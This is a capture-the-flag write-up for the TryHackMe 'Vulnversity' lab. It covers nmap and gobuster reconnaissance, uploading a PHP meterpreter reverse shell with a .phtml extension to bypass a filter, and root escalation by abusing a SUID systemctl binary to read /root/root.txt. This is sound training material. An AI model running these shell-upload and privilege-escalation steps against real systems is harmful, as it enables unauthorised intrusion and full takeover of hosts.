 <!-- TOC -->

- [Vulnversity](#vulnversity)
    - [Reconnaissance](#reconnaissance)
    - [Locating directories using GoBuster](#locating-directories-using-gobuster)
    - [Compromise the webserver](#compromise-the-webserver)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Vulnversity

[Vulnversity Room](https://tryhackme.com/room/vulnversity)

Learn about active recon, web app attacks and privilege escalation.

| Title | IP Address |
| :---- | :---- |
| VulnUniversity | 10.10.154.3 |

## Reconnaissance

```bash
nmap -sV 10.10.154.3
```

> ```
> . . .
> 21/tcp   open  ftp         vsftpd 3.0.3
> 22/tcp   open  ssh         OpenSSH 7.2p2 U***** 4u*****2.7 (U***** Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
> |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
> |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-U***** (workgroup: WORKGROUP)
> 3128/tcp open  http-proxy  Squid http proxy 3.*.**
> |_http-server-header: squid/3.5.12
> |_http-title: ERROR: The requested URL could not be retrieved
> 3***/tcp open  http        Apache httpd 2.4.18 ((U*****))
> |_http-server-header: Apache/2.4.18 (U*****)
> |_http-title: Vuln University
> Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
> . . .
> ```

## Locating directories using GoBuster

```bash
gobuster dir -u http://10.10.154.3:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100
```

```
/images               (Status: 301) [Size: 318] [--> http://10.10.154.3:3333/images/]                                 
/css                  (Status: 301) [Size: 315] [--> http://10.10.154.3:3333/css/]                                    
/js                   (Status: 301) [Size: 314] [--> http://10.10.154.3:3333/js/]                                     
/fonts                (Status: 301) [Size: 317] [--> http://10.10.154.3:3333/fonts/]                                  
/i*******             (Status: 301) [Size: 320] [--> http://10.10.154.3:3333/i*******/]
```

## Compromise the webserver

![Burp](burp.png)

```bash
msfpc php 1*.*.**.** 80
msfconsole -q -r '/home/***/***/php-meterpreter-staged-reverse-tcp-80-php.rc'
mv php-meterpreter-staged-reverse-tcp-80.php php-meterpreter-staged-reverse-tcp-80.phtml
```

RHOST:

```bash
cd /home
cd b***
cat user.txt
```

> `'********************************`

## Privilege Escalation

Using [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

> `-rwsr-xr-x 1 root root 645K Feb 13  2019 /bin/s********`

Using [GTFOBins](https://gtfobins.github.io/):

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
cat /tmp/output
```

> `a*******************************`
